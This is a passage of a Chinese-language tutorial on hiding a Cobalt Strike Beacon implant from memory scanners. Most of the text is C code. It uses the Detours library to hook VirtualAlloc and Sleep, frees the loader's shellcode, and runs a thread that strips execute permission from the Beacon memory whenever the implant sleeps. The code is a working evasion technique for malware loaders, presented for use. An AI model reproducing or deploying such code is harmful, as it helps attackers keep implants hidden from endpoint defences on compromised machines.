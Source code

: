 然后就是 HOOK VirtualAlloc 和 sleep 函数，Hook VirtualAlloc 函数的原因是我们需要知道 Beacon 在自展开时分配的可执行内存起始地址和大小是多少好在后面对这块内存取消 X 属性以免被扫描，Hool Sleep 函数是因为我们需要在 Beacon 进入 Sleep 后立马取消 Beacon 内存区域的 X 属性

```
static LPVOID (WINAPI *OldVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) = VirtualAlloc;
LPVOID WINAPI NewVirtualAlloc(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) {
    Beacon_data_len = dwSize;
    Beacon_address = OldVirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect);
    printf("分配大小:%d", Beacon_data_len);
    printf("分配地址:%llx \n", Beacon_address);
    return Beacon_address;
}

static VOID (WINAPI *OldSleep)(DWORD dwMilliseconds) = Sleep;
void WINAPI NewSleep(DWORD dwMilliseconds)
{
    if (Vir_FLAG)
    {
        VirtualFree(shellcode_addr, 0, MEM_RELEASE);
        Vir_FLAG = false;
    }
    printf("sleep时间:%d\n", dwMilliseconds);
    SetEvent(hEvent);
    OldSleep(dwMilliseconds);
}

//用的微软的Detour库
void Hook()
{
    DetourRestoreAfterWith(); //避免重复HOOK
    DetourTransactionBegin(); // 开始HOOK
    DetourUpdateThread(GetCurrentThread());
    DetourAttach((PVOID*)&OldVirtualAlloc, NewVirtualAlloc);
    DetourAttach((PVOID*)&OldSleep, NewSleep);
    DetourTransactionCommit(); //  提交HOOK
}
```

然后创建一个线程用来在 Beacon 进入睡眠之后立刻取消 Beacon 内存区域的 X 属性

```
DWORD WINAPI Beacon_set_Memory_attributes(LPVOID lpParameter)
{
    printf("Beacon_set_Memory_attributes启动\n");
    while (true)
    {
        WaitForSingleObject(hEvent, INFINITE);
        printf("设置Beacon内存属性不可执行\n");
        VirtualProtect(Beacon_address, Beacon_data_len, PAGE_READWRITE, &Beacon_Memory_address_flOldProtect);
        ResetEvent(hEvent);
    }
    return 0;
}

HANDLE hThread1 = CreateThread(NULL, 0, Beacon_set_Memory_attributes, NULL, 0, NULL);
CloseHandle(hThread1);
```
